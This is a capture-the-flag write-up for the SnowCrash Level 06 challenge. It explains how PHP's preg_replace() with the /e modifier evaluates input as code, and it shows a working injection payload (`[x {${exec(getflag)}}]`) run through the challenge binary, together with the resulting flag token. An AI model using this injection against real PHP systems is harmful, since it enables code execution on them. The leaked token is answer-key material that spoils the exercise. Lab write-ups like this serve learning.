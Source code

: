 ## Level 06

We find two files [level06](./res/level06) and [level06.php](./res/level06.php)

The decompiled c code doesn't help much, it just execute the file passed as argument with `/usr/sbin/php`

But the php file has an interesting exploit with the `preg_replace()`, notice the `/e` in the regex. It will execute the command passed inside the function call.

```php
$a = file_get_contents($y);
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

We can then pass a matching regex inside a file and it will replace the matching content and execute it.
But we can also break the `preg_replace()` call if it evaluates a bad expression.

## Exploit

Which means that we can do stuff like this: 

```bash
level06@SnowCrash:~$ echo '[x {${exec(getflag)}}]' > /tmp/test.php
level06@SnowCrash:~$ ./level06 /tmp/test.php
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

Placing `echo '[x {${exec(getflag)}}]` will break and the double `{{}}` will get the return of the getflag function.

## Token

wiok45aaoguiboiki2tuin6ub